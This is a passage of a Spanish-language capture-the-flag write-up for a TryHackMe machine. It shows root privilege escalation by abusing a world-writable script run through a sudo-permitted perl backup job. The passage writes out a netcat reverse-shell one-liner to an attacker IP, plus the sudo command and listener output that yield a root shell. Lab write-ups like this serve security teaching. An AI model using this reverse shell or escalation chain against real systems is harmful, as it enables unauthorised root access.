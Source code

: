 ```bash
www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Antes de realizar cualquier modificación en el script, sería prudente averiguar si el usuario actual tiene permisos de sudo y qué comandos puede ejecutar. Para hacerlo, podemos utilizar el comando `sudo -l` para mostrar los privilegios de sudo del usuario actual.

```bash
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

¡Excelente! Al observar los resultados de `sudo -l`, notamos que el usuario `www-data` tiene los privilegios de sudo para ejecutar el comando `/home/itguy/backup.pl` sin requerir una contraseña.

A continuación, procedemos a modificar el script `/etc/copy.sh`, donde especificaremos nuestra dirección IP con el fin de generar una reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.11.100 5554 >/tmp/f
```

Luego, ejecutamos el script utilizando el comando `sudo`.

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

Y después de haber establecido la escucha en el puerto especificado en el script, habremos obtenido privilegios de `root`.

```bash
❯ nc -nlvp 5554
listening on [any] 5554 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.151.164] 33616
# whoami
root
```

Finalmente, accedemos al directorio principal del usuario `root` y leemos la última flag.

```bash
# cd
# ls
root.txt
# cat root.txt
THM{********************************}
```

!Happy Hacking¡


